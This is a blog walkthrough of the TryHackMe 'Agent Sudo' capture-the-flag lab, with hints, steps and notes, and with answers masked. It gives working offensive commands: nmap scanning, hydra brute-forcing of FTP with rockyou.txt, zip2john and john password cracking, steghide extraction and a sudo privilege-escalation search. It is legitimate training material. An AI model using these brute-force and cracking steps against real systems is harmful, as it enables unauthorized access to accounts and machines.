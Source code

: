 ```yaml
---
title: Agent Sudo -/ TryHackMe Walkthrough
author: Mr Ash
type: "post"
published: 2022-07-09
lastUpdated: 2022-11-05
url: "/agent-sudo/"
image: https://p146.p4.n0.cdn.getcloudapp.com/items/WnuDq4KN/00cd5204-7161-4728-ae1b-8552248e9747.jpg?v=40fdd0801164d7a95b5a5487f11cf83b
categories: Cyber
tags:
    - Hacking
    - TryHackMe
    - Capture The Flag
    - Walkthrough
---
```


Welcome back to another [TryHackMe](https://tryhackme.com/) room, the challenge today is [Agent Sudo](https://tryhackme.com/room/agentsudoctf).

No spoilers below within the hints, just some good ol’ fashion hints to help you out on your agent sudo journey. For more detail, with some spoilers, see the steps section, and for everything I did, see my notes. If you prefer a video walkthrough, well that’s linked below, and if you want my personal thoughts on the room, check out the reflection via the video.

*Disclaimer, there are spoilers for this room below, please use the hints if you do not want any steps spoiled. Room creator credit: [DesKel](https://tryhackme.com/p/DesKel).*

<!-- <figure class="wp-block-embed is-type-video is-provider-youtube wp-block-embed-youtube wp-embed-aspect-16-9 wp-has-aspect-ratio"><div class="wp-block-embed__wrapper"><iframe allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen="" frameborder="0" height="450" loading="lazy" src="https://www.youtube.com/embed/PYQ51M8qTbw?feature=oembed" title="Agent Sudo // TryHackMe Walkthrough" width="800"></iframe></div></figure><div id="hs-embed-container" style="position:relative;display:flex;width:100%;height:300px;"><div id="hs-embed-placeholder" style="position:absolute;top:0;bottom:0;left:0;right:0;margin:10px;overflow:auto;font-size: 14px !important">[ Agent Sudo // TryHackMe Walkthrough – powered by Happy Scribe](https://www.happyscribe.com/?utm_source=embed-player&utm_term=b764bacd7be54743bcb64bd390e2ee4a "Listen: Agent Sudo // TryHackMe Walkthrough was transcribed from audio to text using Happy Scribe")

</div><div class="hs-embed" data-hide_video="true" data-id="b764bacd7be54743bcb64bd390e2ee4a" data-private_text="true"></div><script>
var js=document.createElement('script');js.type='text/javascript';js.async=true;js.src='https://embed.happyscribe.co/main.js';document.head.appendChild(js);
</script></div><style type="text/css"> ._h1s512 { white-space: nowrap; } </style> -->

## Hints

Task 2 Enumerate

- How many open ports? `nmap` can show you.
- How you redirect yourself to a secret page? Read the note on `index.html`
- What is the agent name? Use the web dev tools to change `user-*****`

Task 3 Hash cracking and brute-force

- FTP password. Use `hydra` with `rockyou.txt`
- Zip file password. Use `binwalk` to *really* see the `png`, then `zip2jon`.
- steg password. Use `steghide` to *really* see the `jpg`.
- Who is the other agent (in full name)? `cat` your new `message.txt`
- SSH password. `base64 -d`

Task 4 Capture the user flag

- What is the user flag? Once in, simple `cat`
- What is the incident of the photo called? Use OSINT via bing.

<!-- <div class="elementor elementor-5483" data-elementor-id="5483" data-elementor-type="section"><div class="elementor-section-wrap"> <section class="elementor-section elementor-top-section elementor-element elementor-element-32d8c94 elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="32d8c94" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-default"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-top-column elementor-element elementor-element-5e7c56e" data-element_type="column" data-id="5e7c56e"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-widget-wrap"> <section class="elementor-section elementor-inner-section elementor-element elementor-element-fc64076 elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="fc64076" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-no"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-inner-column elementor-element elementor-element-f7d6b37" data-element_type="column" data-id="f7d6b37"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-widget-wrap"><div class="elementor-element elementor-element-4c75247 elementor-widget elementor-widget-text-editor" data-element_type="widget" data-id="4c75247" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="text-editor.default"><div class="elementor-widget-container"><div class="elementor-text-editor elementor-clearfix">Recent Posts

 </div> </div> </div><div class="elementor-element elementor-element-322ad34 elementor-widget elementor-widget-elementskit-post-list" data-element_type="widget" data-id="322ad34" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="elementskit-post-list.default"><div class="elementor-widget-container"><div class="ekit-wid-con">- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">How To Fix TryHackMe VPN Not Working | Troubleshooting OpenVPN</span> </div> ](https://mrash.co/how-to-fix-tryhackme-vpn-not-working-troubleshooting-openvpn/)
- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">Crack The Hash TryHackMe Walkthrough</span> </div> ](https://mrash.co/crack-the-hash-tryhackme-walkthrough/)
- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">100 Days Of Hacking</span> </div> ](https://mrash.co/100daysofhacking/)
 
 </div> </div> </div> </div> </div> </div> </div> </div> </section> <section class="elementor-section elementor-inner-section elementor-element elementor-element-d91d33b elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="d91d33b" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-no"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-inner-column elementor-element elementor-element-6dee180" data-element_type="column" data-id="6dee180"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-widget-wrap"><div class="elementor-element elementor-element-7acfc36 elementor-widget elementor-widget-text-editor" data-element_type="widget" data-id="7acfc36" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="text-editor.default"><div class="elementor-widget-container"><div class="elementor-text-editor elementor-clearfix">Popular Posts

 </div> </div> </div><div class="elementor-element elementor-element-7b9396d elementor-widget elementor-widget-elementskit-post-list" data-element_type="widget" data-id="7b9396d" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="elementskit-post-list.default"><div class="elementor-widget-container"><div class="ekit-wid-con">- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">OneNote to Notion - Moving Apps</span> </div> ](https://mrash.co/onenote-to-notion-moving-apps/)
- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">100 Days Of Hacking</span> </div> ](https://mrash.co/100daysofhacking/)
- [ <span class="elementor-icon-list-icon">  </span><div class="ekit_post_list_content_wraper"> <span class="elementor-icon-list-text">Hackers Learning Path</span> </div> ](https://mrash.co/learning-path-for-beginner-hacker/)
 
 </div> </div> </div> </div> </div> </div> </div> </div> </section><div class="elementor-element elementor-element-2763e2a elementor-widget elementor-widget-text-editor" data-element_type="widget" data-id="2763e2a" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="text-editor.default"><div class="elementor-widget-container"><div class="elementor-text-editor elementor-clearfix">\*Shamless self-promotion, I know.

 </div> </div> </div> </div> </div> </div> </div> </div> </section> </div> </div> -->

## Task 5 Privilege escalation
- CVE number for the escalation. `sudo -*`
- What is the root flag? `cat /root/root.txt`
- (Bonus) Who is Agent R? see `root.txt`

## Steps

1. Task 2 Enumerate, as always, start by scanning the machine, I used `nmap -vv -A <ip>`. We can see ports 21, 22 and 80, so most likely we have a web server running, let’s confirm this.
2. Visithttp://&lt;ip&gt; to get the next clue, change the user-agent by going to Inspect (DevTools) &gt; Customise and control DevTools &gt; More Tools &gt; Network conditions, User agent. Here you can change the user-agent by disabling/unchecking Use browser default. Reload the page, and you’re done!
3. Task 3 Hash cracking and brute-force. Now that leads us back to port 21, ftp, so now armed with a username, let’s use brute force. Use hydra -t 32 -l \*\*\*\*\* -P /usr/share/wordlists/rockyou.txt -vV &lt;ip&gt; ftp against the target and you’ll be able to find the password, so then log in using ftp &lt;ip&gt;, and mget \* to copy all the files.
4. It’s time to examine what we’ve found, run file \* to show some basic info, but use binwalk to show hidden info within the files. Then binwalk -e cutie.png to pull out the data, again running file \* will help here with new files. Use zip2john 8702.zip &gt; 8702.hashes to extract the hash, then john 8702.hashes to crack it.
5. The new text file provides a cryptic message, we can decode this using echo \*\*\*\*\*\*\*\* | base64 -d. That’s the steg password, use `steghide extract -sf cute-alien.jpg -p ******` to gain SSH creds, then `ssh *****@<ip>`. Next up, Task 4 Capture the user flag.
6. Now copy the files over via `scp -r * *****@<ip>: .`, use a bit of OSINT and find the CVE. For more, use my notes below or hints above for help, enjoy!

## Notes

nmap: `nmap -vv -A <ip>`

```bash
Completed NSE at 02:52, 0.00s elapsed
Nmap scan report for 10.10.253.182
Host is up, received conn-refused (0.32s latency).
Scanned at 2022-07-06 02:51:25 EDT for 42s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 02:52
Completed NSE at 02:52, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 02:52
Completed NSE at 02:52, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 02:52
Completed NSE at 02:52, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 42.85 seconds

```

Visit: `http://<ip>` Changed User-Agent \[[Link](https://www.searchenginejournal.com/change-user-agent/368448/)\], redirected: `http://<ip>/agent_C_attention.php`, Found name Agent C.

```bash
Attention *****,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R

```

Crack FTP: `hydra -t 32 -l ***** -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp` \[[LINK](https://www.binarytides.com/crack-ftp-passwords-with-thc-hydra-tutorial/)\]

```bash
[21][ftp] host: <ip>  login: *****   ****password: *****

```

Logged into FTP `ftp <ip>`, ran `mget *` to get all the files.

Examine images: `binwalk`, extracted image data: `binwalk -e cutie.png`.

Installed `sudo apt install 7zip` \[[Link](https://ubuntuforums.org/showthread.php?t=1416364), [Link](https://super-unix.com/ubuntu/ubuntu-extracting-zip-file-fails-giving-error-need-pk-compat-v5-1/)\] `7z e 365.zlib`.

Cracking zip file \[[Link](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)\]: `zip2john 8702.zip > 8702.hashes`, `john 8702.hashes`

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
*****            ****(8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE 2/3 (2022-07-08 01:35) 2.222g/s 101044p/s 101044c/s 101044C/s 123456..ferrises
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```

`cat To_agentR.txt`

```bash
Agent C,

We need to send the picture to **'********'** as soon as possible!

By,
Agent R

```

Finding hash value: `echo ******** | base64 -d`, `steghide extract -sf cute-alien.jpg -p ******`.

```bash
Hi *****,

Glad you find this message. Your login password is ****************

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
*****

```

Connect via SSH: `ssh *****@<ip>`, copy over image: `scp -r * *****@<ip>: .` \[[Link](https://youtu.be/gGe1cNgfHwE), [Link](https://www.freecodecamp.org/news/scp-linux-command-example-how-to-ssh-file-transfer-from-remote-to-local/)\].

Ran `sudo -*`, searched ‘exploit sudo \*\*\*\*\*\*\*\*\*\*\*\*’, found exploit `sudo ***** *********`

```bash
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
********************************

By,
****** a.k.a Agent R

```

{{<youtube PYQ51M8qTbw>}}

This is day 54 of [#100DaysOfHacking](https://mrashleyball.com/100daysofhacking/) on my [Hackers Learning Path](https://mrashleyball.com/learning-path-for-beginner-hacker/). [Subscribe](https://go.mrash.co/newsletter) for [CyberSec](https://mrashleyball.com/starting-out-in-cyber-security/) updates or [read](https://mrashleyball.com/blog) more, happy hacking, coding, and ‘learning.